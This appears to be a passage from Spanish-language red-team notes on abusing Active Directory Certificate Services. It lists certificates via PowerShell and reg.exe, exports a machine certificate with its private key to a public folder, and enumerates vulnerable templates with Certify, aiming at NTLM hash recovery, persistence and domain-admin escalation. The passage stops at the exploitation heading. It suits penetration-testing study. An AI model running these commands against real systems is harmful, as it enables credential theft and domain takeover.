 Existen muchas formas de encontrar certificados para su posterior explotación, una de esas formas es mediante el listado de certificados almacenados de forma local en la máquina.

```
### Listar certificados
ls cert:\LocalMachine\My

### Listar certificados mediante reg.exe
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\SystemCertificates"
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\SystemCertificates\MY"
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\SystemCertificates\MY\Certificates"
```

```
### Exportar certificado
ls cert:\LocalMachine\My\89C1171F6810A6725A47DB8D572537D736D4FF17 | Export-PfxCertificate -FilePath C:\Users\Public\pawadmin.pfx -Password (ConvertTo-SecureString -String 'SecretPass@123' -Force -AsPlainText)
```
### Abuse ADCS

- Extraer certificados de usuario y de máquina
- Usar certificados para recuperar hash NTLM
- Persistencia a nivel de usuario y máquina
- Escalado a administrador de dominio y administrador de empresa
- Persistencia de dominio
## Enumeración

Que no aparezcan plantillas vulnerables no significa que no haya algún tipo de misconfiguración, puede que  tengamos permisos como algún usuario en particular.

Requisitos comunes/configuraciones erróneas para todas las Escalaciones
- CA concede derechos de inscripción a usuarios con privilegios normales/bajos
- La aprobación del administrador está desactivada
- No se requieren firmas de autorización
- La plantilla de destino concede derechos de inscripción a usuarios con privilegios normales/bajos.

```
### Podemos utilizar la herramienta Certify para enumerar (y para otros ataques) AD CS en el bosque objetivo:
### Ayudará a identificar si tenemos un servidor CA
Certify.exe cas

### Enumerar las plantillas:
### Enumerar todas las plantillas, las configuraciones aplicadas a cada una, permisos
Certify.exe find

### Enumerar las plantillas vulnerables:
### 
Certify.exe find /vulnerable
```
## Explotación
